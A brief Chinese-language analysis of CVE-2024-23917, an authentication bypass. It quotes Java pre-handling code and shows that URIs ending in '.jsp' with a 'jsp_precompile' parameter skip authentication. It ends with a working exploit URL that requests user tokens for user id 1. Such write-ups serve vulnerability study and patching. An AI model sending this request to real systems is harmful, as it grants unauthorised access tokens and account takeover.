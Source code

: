# CVE-2024-23917

## analyze

和CVE-2023-42793相关，仍然是一个鉴权的绕过：

```java
    private boolean requestPreHandlingAllowed(@NotNull HttpServletRequest request) {
        if (WebUtil.isJspPrecompilationRequest(request)) {
            return false;
        } else {
            return !this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(request));
        }
    }
```

`CVE-2023-42793`利用的是`!this.myPreHandlingDisabled.matches(WebUtil.getPathWithoutContext(request));`，匹配上这个`this.myPreHandlingDisabled.matches`导致返回了false，绕过了鉴权。



CVE-2024-23917关注的则是`WebUtil.isJspPrecompilationRequest(request)`：

```java
    public static boolean isJspPrecompilationRequest(@NotNull HttpServletRequest request) {
        String uri = StringUtil.notNullize(request.getRequestURI());
        return (uri.endsWith(".jsp") || uri.endsWith(".jspf")) && request.getParameter("jsp_precompile") != null;
    }
```

非常容易绕过了。



## EXP

以`.jsp`结尾且有`jsp_precompile`就可以绕过。

```http
http://localhost:38111/app/rest/users/id:1/tokens/feng;.jsp?jsp_precompile=1
```



## References

https://t.zsxq.com/18ji6E2sZ